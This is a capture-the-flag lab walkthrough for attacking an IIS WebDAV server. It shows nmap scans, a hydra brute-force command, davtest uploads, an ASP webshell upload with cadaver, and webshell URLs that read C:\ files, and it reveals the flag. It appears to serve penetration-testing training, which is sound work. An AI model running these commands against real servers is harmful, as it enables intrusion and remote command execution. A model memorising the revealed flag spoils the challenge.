





# 🔬IIS - WebDAV

## Lab 1

>  🔬 [Windows: IIS Server DAVTest](https://attackdefense.com/challengedetails?cid=2317)
>
>  - Target IP: `10.3.26.115`
>  - IIS exploitation
>  - Credentials provided: `bob`:`password_123321`

```bash
ping 10.3.26.115

nmap -sV -sC 10.3.26.115
```

```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|_  Server Date: Fri, 10 Mar 2023 12:34:28 GMT
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DOTNETGOAT
|   NetBIOS_Domain_Name: DOTNETGOAT
|   NetBIOS_Computer_Name: DOTNETGOAT
|   DNS_Domain_Name: DotNetGoat
|   DNS_Computer_Name: DotNetGoat
|   Product_Version: 10.0.17763
|_  System_Time: 2023-03-10T12:34:28+00:00
| ssl-cert: Subject: commonName=DotNetGoat
| Not valid before: 2023-03-09T12:25:30
|_Not valid after:  2023-09-08T12:25:30
|_ssl-date: 2023-03-10T12:34:36+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-10T12:34:33
|_  start_date: N/A
```



- A `http-enum` script scan can also be done, focusing only on port `80`:

```bash
nmap -p80 --script http-enum -sV 10.3.26.115
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 401 Unauthorized - authentication is enabled
```




### [hydra](https://www.kali.org/tools/hydra/)

> **`hydra`** - a parallelized fast and flexible login cracker which supports numerous protocols to attack.

```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> ssh
```

> **❗Pay attention with brute-force attacks as they can cause a DoS (Denial of Service)❗**

- Try `hydra` to brute force WebDAV in this case

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/
```


- Use the lab provided credentials instead, first in the web browser then with `davtest` tool



### [davtest](https://www.kali.org/tools/davtest)

- It sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files, then it tries to execute uploaded files and gives an output of successfully executed files.

```bash
davtest -url http://10.3.26.115/webdav
```

```bash
Testing DAV connection
OPEN		FAIL:	http://10.3.26.115/webdav	Unauthorized. Basic realm="10.3.26.115"
```

- Use the provided credentials with `davtest`

```bash
davtest -auth bob:password_123321 -url http://10.3.26.115/webdav
```

```bash
/usr/bin/davtest Summary:
Created: http://10.3.26.115/webdav/DavTestDir_a7XjUR
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cfm
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cgi
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.aspx
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.php
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jsp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jhtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.shtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.pl
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
```


> 📌 Summary:
>
> - All important file types can be uploaded to the `/webdav` directory
> - `.txt`, `.asp`, `.html` files can be executed

### [cadaver](https://www.kali.org/tools/cadaver/)

- Use `cadaver` to upload an `.asp` payload to the `/webdav` directory

```bash
cadaver http://10.3.26.115/webdav
```

```bash
dav:/webdav/> ls
# commands can be used on the web server dav directory
```



```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
```

```bash
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

# webshell payload uploaded successfully
```


- Access the backdoor using the browser - `http://10.3.26.115/webdav/webshell.asp`
- Windows commands can be provided in the box


- Run `whoami`, `ipconfig` or other commands to find the flag


- `dir C:\` command - `http://10.3.26.115/webdav/webshell.asp?cmd=dir+C%3A%5C`
- `type C:\flag.txt` command - `http://10.3.26.115/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt`

<details>
<summary>Reveal Flag: 🚩</summary>


`0cc175b9c0f1b6a831c399e269772661`



</details>

------

## Lab2
